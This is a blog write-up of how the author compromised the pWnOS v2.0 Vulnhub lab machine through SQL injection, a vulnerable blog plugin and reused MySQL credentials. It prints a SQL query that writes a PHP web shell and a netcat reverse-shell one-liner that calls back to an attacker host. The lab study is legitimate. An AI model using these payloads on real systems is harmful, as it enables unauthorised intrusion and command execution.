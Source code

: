 ```yaml
---
layout: post
title: "pWnOS v2.0 Write-Up"
categories: [write-ups]
permalink: /write-ups/pwnos-2-writeup/
---
```

pWnOS is another OSCP-like machine from Vulnhub which has multiple ways to be solved.
<h1>Port Scan</h1>
This machine uses an static IP address (10.10.10.100), so we can skip the network scan.
![Port Scan](portScan.png)
There are only two ports open, one for SSH and the other one for HTTP (which is the most interesting).
<br><br>
<h1>Port 80 Enumeration</h1>
The root page is an internal website with both a register and a login form. I registered into the website while Gobuster and SQLMap were running but I couldn't get anything interesting from this. Gobuster found a directory called blog and SQLMap found that the login form was injectable.
![Root page](rootPage.png)
![Gobuster output](gobuster.png)
![SQLInjection](sqlInjection.png)
From here there are two methods that can be followed to get a shell into the machine.
<br><br>
<h1>Method 1 (SQL Injection)</h1>
Using the SQL Injection we can leak the hash of the password of the administrator, but it isn't used for anything. I decided to do the SQL Injection methods manually after using SQLMap to try to learn more about them. First, I attempted to leak information using an "UNION SELECT" in the query with 8 columns. The fourth column was displayed in the login page, so I could change it to any column in any table to leak it.
![Leaking info](sqlLeak.png)
I added a "INTO OUTFILE '/var/www/shell.php'" to the previous query to try to upload a shell to the machine. The query ended up being:
{% highlight SQL %}SELECT * FROM users WHERE email='' 
UNION 
SELECT 1,2,3,'<?php system($_REQUEST["cmd"]); ?>',5,6,7,8 
FROM USERS INTO OUTFILE ‘/var/www/shell.php’#{% endhighlight %}
![Uploading shell](sqlUpload.png)
![SQL Shell](sqlShell.png)
<h1>Method 2 (Exploiting Simple PHP Blog)</h1>
In the blog directory there is a blog that uses "Simple PHP Blog" version 0.4.0 (as seen in the page meta data). This version of Simple PHP has multiple vulnerabilities and I used a perl script from ExploitDB to exploit them.
![Blog source](blogSource.png)
![Exploits](exploitDB.png)
![Exploit Script](exploitScriptOut.png)
![Webshell](webshell.png)
<h1>www-data Shell and PrivEsc</h1>
We can use a reverse shell from any of the two webshells that we uploaded to get a more interactive shell. To do so I used this one liner from the Pentest Monkey Cheatsheet: {% highlight bash %}rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f {% endhighlight %}
![Reverse shell](reverseShell.png)
The first thing I did was checking the configuration files to get the user and the password of the MySQL account. I found two files with credentials, one at /var/mysqli_connect.php and the other one at /var/www/mysqli_connect.php. 
![Credentials 1](credentials1.png)
![Credentials 2](credentials2.png)
The second credentials were wrong, but the ones in the first one could also be used to get root in the machine.
![Root](root.png)
<h1>Investigating other methods</h1>
The kernel version of the server is 2.6.38, which is really old. I tried using some kernel exploits but I couldn't get them to work (probably because Dirty COW relies on a race condition but the machine only had one CPU).
![Kernel Version](kernel.png)
The other thing that caught my attention was the fact that the mysql user had UID of 0 and that the MySQL server was running as root, which means that we can write files on the machine with root privileges.
![MySQLd root](mysqld-root.png)
![Writing files](writing-files.png)
I spent a lot of time with this, but I couldn't get anything. I tried writing an authorized_keys files but I wasn't able to create a .ssh folder anywhere. I also tried to get code execution using the /etc/cron.d directory, but for reasons I don't understand the cronfiles didn't want to run (I did the same on my machine and it worked).
<br><br>
<h1>Conclusions</h1>
This is a really easy machine which can be completed pretty fast, so I used it to learn more about SQL Injection and Linux privilege escalation.

